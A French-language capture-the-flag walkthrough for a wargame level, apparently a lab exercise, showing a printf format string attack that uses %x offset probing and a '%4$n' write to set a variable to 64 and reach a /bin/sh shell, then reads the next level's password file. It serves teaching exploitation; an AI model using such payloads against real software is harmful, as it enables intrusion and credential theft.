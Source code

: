On a encore un executable, on le disassemble
il a une fonction V
il y a fgets qui est protegé contre les buffer overflow

et qu'il a une comparaison de "64"
(qd on decompile, on voit que dans la fonction v il y a un system /bin/sh donc on veut acceder a ca, seulement le if compare une variable "m" a 64)

0x080484df <+59>:	cmp    $0x40,%eax

on cherche toute les variables du programme grace a "info variable" (car m n'est defini nul part dans les decompilations)
<!-- on cherche a savoir l'adresse de la variable m qui contient 64 avec print &m on obtient : 0x804988c (pas besoin)-->

mais il y a un printf qu'on va manipuler pour changer la variable a l'adresse 0x804988c, on peut donc faire un format string attack

le flag %x de printf permet de print l'adresse en format hexadécimal

on va essayer de trouver ou se trouve l'adresse avec 

(python -c 'print "CCCC %x %x %x %x %x %x"'; cat) | ./level3

python -c 'print "CCCC %x %x %x %x %x %x"' > /tmp/test
cat /tmp/test - | ./level3

la ou ca se repete c'est la 4 eme position (43434343) donc on va mettre l'adresse (little-endian) de la variable m qui est : \x8c\x98\x04\x08

python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit

on veut changer le contenu de M qui accepte que 64 bytes donc l'adresse M fait 4bytes il faut qu'on rajoute 60

python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit

on donne l'argument "%4$n" qui veut dire utilise l'argument 4 et utilise %n dessus (l'argument %n ecrit dans l'adresse donnee)

whoami

cat /home/user/level4/.pass